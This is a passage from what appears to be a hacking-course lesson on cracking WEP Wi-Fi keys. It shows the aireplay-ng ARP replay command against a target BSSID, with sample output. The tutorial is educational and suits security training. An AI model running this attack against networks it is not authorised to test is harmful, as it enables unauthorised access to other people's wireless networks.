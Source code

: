 - Once, this packet is sent to the network, we are going to capture it, and retransmit it. Once, we do this, the router is forced to generate a new packet with new IV.

- By repeating this process, we will be forcing the router to contnuously generate new packets with new IVs. Than once we have enough packets, we can crack the WEP key.

- We can do this attack using the command:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b <BSSID> -h <MAC_ADDRESS_OF_HACKERS_ADAPTER> wlan0
    ```

    The output will look like this:

    ```
    [TIME] Waiting for beacon frame (BSSID: <BSSID>) on chanbel <channel>
    Saving ARP requests in file: something.cap
    You should also start airodump-ng to capture replies.
    Read XXXXXX packets (got XXXXX ARP requests and XXX ACKs), sent XXXX Packers...(XXX pps)
    ```

    Actual output looks like this:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b WIFI_MAC -h WIRELESS_ADAPTER_MAC  wlan0
    06:07:29  Waiting for beacon frame (BSSID: WIFI_MAC) on channel 36
    Saving ARP requests in replay_arp-0727-060729.cap
    You should also start airodump-ng to capture replies.
    Read 0 packets (got 0 ARP requests and 0 ACKs), sen
    Read 2 packets (got 0 ARP requests and 0 ACKs), sen
    Read 23 packets (got 0 ARP requests and 0 ACKs), se
    Read 33 packets (got 0 ARP requests and 2 ACKs), se
    Read 37 packets (got 0 ARP requests and 2 ACKs), se
    Read 48 packets (got 0 ARP requests and 2 ACKs), se
    Read 49 packets (got 0 ARP requests and 2 ACKs), se
    Read 55 packets (got 0 ARP requests and 2 ACKs), se
    ```

- `-b` is the BSSID of the target network, and `-h` is the MAC address of the hacker's adapter.

---

### Path

<- [Previous Lesson: Network Hacking - Pre Connection Attacks](./lesson-02.md)  |  [Next Lesson: Network Hacking - Gaining Access - WPA/WPA2 Cracking](./lesson-04.md) ->
